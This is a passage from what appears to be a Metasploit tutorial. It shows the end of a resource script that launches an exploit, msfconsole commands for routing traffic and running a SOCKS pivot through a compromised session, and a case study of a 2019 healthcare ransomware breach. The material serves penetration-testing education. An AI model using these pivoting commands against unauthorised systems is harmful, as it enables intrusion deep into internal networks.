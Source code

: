 ```ruby
    run_single("set LPORT 4444")
    run_single("exploit -j")
  end
end
</ruby>
```

### Advanced MSFconsole Features

**Route Management**: Direct traffic through compromised hosts to access otherwise unreachable networks:

```
msf6 > route add 10.10.10.0 255.255.255.0 1
msf6 > route print
Active Routing Table
===================
   Subnet             Netmask            Gateway
   ------             -------            -------
   10.10.10.0         255.255.255.0      Session 1
```

**Pivoting with SOCKS Proxy**: Create a SOCKS proxy through an established session:

```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
msf6 auxiliary(server/socks_proxy) > set VERSION 5
msf6 auxiliary(server/socks_proxy) > run -j
```

**Logging**: Record all console activity for documentation:

```
msf6 > spool /tmp/msf_console.log
[*] Spooling to file /tmp/msf_console.log...
```

> **CASE STUDY: Healthcare Provider Breach (2019)**
> 
> In 2019, a major healthcare provider suffered a breach when attackers used Metasploit resource scripts to automate exploitation across their network. The initial entry point was a single vulnerable system exposed to the internet. Using resource scripts similar to those shown above, attackers quickly enumerated the internal network and identified all vulnerable systems. Within hours, they had deployed ransomware across 80% of the organization.
> 
> The investigation revealed that the attackers used staged resource scripts that first performed non-intrusive reconnaissance, then exploited vulnerable systems, established persistence, and finally deployed the payload. This methodical approach allowed them to operate efficiently while minimizing detection opportunities.
> 
> *Source: Sanitized incident response report from a major security vendor, 2019*

## Payload Generation and Delivery
